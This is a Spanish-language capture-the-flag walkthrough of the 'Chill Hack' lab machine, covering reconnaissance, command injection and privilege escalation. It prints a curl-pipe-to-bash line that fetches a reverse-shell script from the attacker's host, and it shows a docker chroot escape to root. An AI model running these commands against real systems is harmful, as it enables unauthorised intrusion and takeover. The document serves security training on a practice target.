# Chill Hack

## ESCANEO DE PUERTOS



Vemos los siguientes puertos abiertos 21,22 Y 80

## BÚSQUEDA DE DIRECTORIOS



Nos llama la atención el último enlace /secret/



Encontramos la siguiente página que nos deja meter ciertos comandos

## ENUMERACIÓN DE EXPLOIT

Vemos que dependiendo de que comandos le introduzcamos pues nos deja o no.

En este caso realizaremos un reverse shell que guardaremos en un archivo llamado shell.sh



Posteriormente abrimos un servidor con python para hacer de enlace con la web victima y llamar al archivo malicioso.

`python3 -m http.server 80`

Luego le ponemos el siguiente prompt para hacer la intrusión

`curl http://192.168.144.146/shell.sh | /bin/bash`

Antes de ejecutarlo abrimos un canal de escucha con netcat por el puerto 444 y ahora sí, lo ejecutamos.



Y como vemos se nos dará conexión con la máquina víctima.

Realizamos tratamiento de TTY

Explorando vemos los siguientes usuarios



## ESCALADA DE PRIVILEGIOS

Vemos que el usuario apaar tiene permisos para ejecutar el archivo helpline.sh, el cual nos hace una serie de preguntas.

Intentaremos introducirle una /bin/bash para recibir una shell, pero lo haremos de la siguiente forma para que lo hagamos como usuario apaar.

`sudo -u apaar /home/apaar/.helpline.sh` Luego responderemos con /bin/bash ambas veces.



Investigamos en dicho perfil y encontramos el siguiente archivo hacker.php el cual contiene unas imágenes.



Descargamos las imágenes con abriendo un servidor de python3 en dicha carpeta

`python3 -m http.server 8080`



hacemos un wget junto con la dirección



Y ya tendremos descargada la imagen.

Le realizamos estenografía para ver sus metadatos.

`steghide extract -sf` (nombre de la imagen)

Se nos descarga un archivo .zip backup.zip pero vemos que lleva contraseña.

Usamos `zip2john` y `john` para sacar la contraseña



Analizamos dicho archivo source_code.php

Observamos que hay una contraseña en base 64 que debemos de descifrar





Probamos la contraseña con el usuario anurodh y conseguiremos entrar



## ESCALADA A ROOT

Primeramente vemos que pertenecemos al grupo docker



Luego observamos que existen 2 imagenes en docker



Buscamos en gtfobins que vulnerabilidades puede existir para escalar privilegios.

`docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh`

Con el siguiente comando observamos que escalamos privilegios fácilmente.



Y ahora sí, buscamos las flags

`root.txt`



`local.txt`




